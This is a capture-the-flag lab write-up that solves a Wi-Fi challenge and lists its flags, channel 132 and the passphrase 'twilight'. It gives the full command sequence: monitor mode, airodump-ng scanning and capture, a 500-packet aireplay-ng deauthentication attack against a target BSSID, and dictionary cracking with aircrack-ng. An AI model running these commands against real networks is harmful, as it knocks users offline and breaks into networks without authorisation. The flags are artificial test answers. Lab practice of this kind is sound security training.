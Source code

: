 # Wifi Security

- Category: Wifi 
- Points: 100

## Challenge Description:
```
A dual-band WiFi interface is available in the lab machine. There is a WiFi network operating in the vicinity of the lab machine. 

Answer the following questions:

    1. The WiFi network is operating on which channel? Provide channel number.
    2. What is the secret passphrase of that WiFi network? 

Instructions: 
- The password dictionary "100-common-passwords.txt" is kept in the home directory of root user (i.e. /root/)
- Aircrack-ng suite is installed on the machine
```

## Solution:

### Tool used:
- `aircrack-ng` suite

First, we need to set our interface to monitor mode

We can do so by running:

`iw dev wlan0 set monitor none`
*no need to run with sudo as we are root!*

Next, we need to scan for wifi! 

`airodump-ng wlan0`

However, as it is a 5GHz network, and airodump-ng does not scan for 5Ghz channels by default, we need to include the -b a flag (sets the band to scan in ac mode (802.11ac - 2.4GHz **and** 5GHz))

`airodump-ng wlan0 -b a`

We find the wifi network broadcasting on `channel 132`, which gives us the first flag.

Next, we need to focus on that specific network, and do a network capture

```sh 
airodump-ng --bssid A2:E7:5C:D3:F7:20 -c 132 --output-format pcap -w AAAA wlan0
```

However, it is here that we hit our first roadblock. 

I need to capture network while interacting with said network (with this command: `aireplay-ng --deauth 500 -a A2:E7:5C:D3:F7:20 wlan0`) ~~, and since I did not have access to tmux or GNU Screen, I had to get creative with running commands in the background!~~ (I later realised that creating more tabs would run on the same instance...so this was completly unnecssary as it created background processes that I had to manually kill)

```sh
airodump-ng --bssid A2:E7:5C:D3:F7:20 -c 132 --output-format pcap -w AAAA wlan0 & aireplay-ng  --deauth 500 -a A2:E7:5C:D3:F7:20 wlan0
```

 936420After about a minute, I get a pcap file! Which we can then crack with aircrack-ng (and the provided `100-common-passwords.txt` file)!

```sh
aircrack-ng AAAA-01.cap -w ./100-common-passwords.txt
```

We can then get the password 'twilight' from aircrack!


### Reference: 
https://securethelogs.com/2019/08/09/cracking-wireless-passwords-with-aircrack-ng/

## Flags:
1. 132
2. twilight